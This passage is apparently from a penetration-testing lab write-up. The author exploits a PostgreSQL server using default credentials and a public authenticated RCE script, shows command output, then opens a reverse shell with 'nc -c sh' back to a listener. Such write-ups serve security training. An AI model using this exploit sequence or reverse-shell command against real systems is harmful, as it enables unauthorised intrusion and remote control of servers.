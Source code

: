 ```
PostgreSQL 9.6.1 - Remote Code Execution (RCE) (Authenticated)    | multiple/remote/51247.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

From our postgres client we know the postgres server version is 11.7 -- which seems to be vulnerable to the first RCE above... let's try it.

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ python 50847.py --ip 192.168.199.47 --port 5437 --user postgres --password postgres --command 'id'        

[+] Connecting to PostgreSQL Database on 192.168.199.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _668c545f62ab8815c1afcbffebcd4eca
[+] Command executed

uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)

[+] Deleting table _668c545f62ab8815c1afcbffebcd4eca
```

Success!

I'll use the exploit to set up a reverse shell... running the exploit for each command will become cumbersome very quickly.

I set up my listener:

```                                                                                                                                                                                    
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ nc -lnvp 80  
listening on [any] 80 ...
```

I run the exploit with my netcat reverse shell command

```
┌──(kali㉿kali)-[~/offsec/nibbles]
└─$ python 50847.py --ip 192.168.199.47 --port 5437 --user postgres --password postgres --command 'nc -c sh 192.168.45.172 80'

[+] Connecting to PostgreSQL Database on 192.168.199.47:5437
[+] Connection to Database established
[+] Checking PostgreSQL version
[+] PostgreSQL 11.7 is likely vulnerable
[+] Creating table _ea842afa79d2ddaf92923629fdd8db2d
   ( ... hangs ... )
```

And we have a shell!
